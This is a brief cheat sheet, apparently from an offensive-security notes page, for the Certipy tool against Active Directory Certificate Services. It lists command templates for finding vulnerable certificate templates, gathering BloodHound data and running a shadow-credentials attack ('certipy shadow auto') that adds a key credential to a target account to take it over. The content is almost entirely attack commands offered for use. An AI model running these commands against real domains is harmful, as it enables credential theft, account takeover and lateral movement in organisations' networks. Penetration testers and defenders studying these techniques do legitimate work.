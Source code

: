 ### Source
https://github.com/ly4k/Certipy  

### Check for vulnerable templates
```
certipy find '<domain>/<user>:<password>@<domainController>' -vulnerable
```

### Collect data for bloodhound
```
certipy find '<domain>/<user>:<password>@<domainController>' -bloodhound
```

### AddKeyCredentialLink
```
certipy shadow auto '<domain>/<user>:<password>'@<certificateAuthorityRhost> -account '<targetComputerOrUser>'
```

